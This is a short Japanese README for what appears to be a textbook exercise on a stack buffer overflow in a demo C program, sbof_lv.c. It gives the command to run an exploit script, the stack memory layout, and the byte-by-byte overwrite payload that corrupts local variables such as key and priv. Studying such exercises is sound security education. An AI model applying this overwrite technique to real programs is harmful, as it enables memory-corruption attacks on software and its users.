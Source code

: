 # 概要
  - スタックバッファーオーバーフローを利用したローカル変数の書き換え
  - code 32-9～32-11

### 実行方法
    $ stdbuf -o0 -e0 python3 ./sbof_lv.py


# 脆弱性
  - 標準入力で、ローカル変数 name に書き込みするとき、スタックバッファーオーバーフローが発生する。

### 対象ソースコード
  - sbof_lv.c

### スタックのメモリ配置
  -0x2F - -0x20 : name  
  -0x1F - -0x10 : select  
  -0x0F - -0x0C : reserved  
  -0x0B - -0x08 : key  
  -0x07 - -0x00 : priv  
  +0x00 - +0x07 : saved rbp  
  +0x08 - +0x0F : return address  

### スタックのメモリ書き換え
  -0x2F - -0x20 : 'a' * 0x10  
  -0x1F - -0x10 : 'H4cked!' + '\x00'* 9  
  -0x0F - -0x0C : 0x00000000  
  -0x0B - -0x08 : 0xdeadbeef  
  -0x07 - -0x00 : 0x000000000040204b  
  +0x00 - +0x07 : saved rbp  
  +0x08 - +0x0F : return address  
